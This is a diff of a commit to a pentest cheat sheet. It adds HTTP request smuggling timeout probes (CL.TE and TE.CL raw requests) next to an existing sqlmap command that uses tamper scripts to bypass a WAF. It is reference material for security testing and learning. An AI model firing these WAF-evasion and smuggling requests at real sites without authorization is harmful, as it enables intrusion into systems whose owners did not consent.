

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Adds HTTP request smuggling identification techniques from PortSwigger's Web Academy.

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -1924,8 +1924,36 @@ sqlmap -u http://target-app.com --second-req http://target-app.com/user/profile
 ### Sqlmap Tampering Techniques ([source](https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3))
 
 - tell `sqlmap` to use tampering techniques for bypassing WAF that are database agnostic
-
+-
 ```
 sqlmap -u http://target-app.com --level=3 --risk=1 \
 	--tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
 ```
+
+### Identifying HTTP Request Smuggling via Timeouts
+
+#### CL.TE
+- The front-end server only forwards the 1 and A but not the X because of its using the `Content-Lenght` to determine the body of the request, but because the backend server is using the `Transfer-Encoding` header to determine the size of the request, it waits for the final chunk to arrive and termination (`0`), but it never does so it times out.
+```
+POST / HTTP/1.1
+Host: vulnerable-site.com
+Content-Length: 4
+Transfer-Encoding: chunked
+
+1
+A
+X
+```
+
+#### TE.CL
+- The front-end server only forwards the 0, carriage return, and line feed, not the X, because it processes the request using chunked encoded - but backend server is expecting 6 characters in the message body, so it hangs and then it times out.
+```
+POST / HTTP/1.1
+Host: vulnerable-site.com
+Content-Length: 6
+Transfer-Encoding: chunked
+
+0
+
+X
+```
````
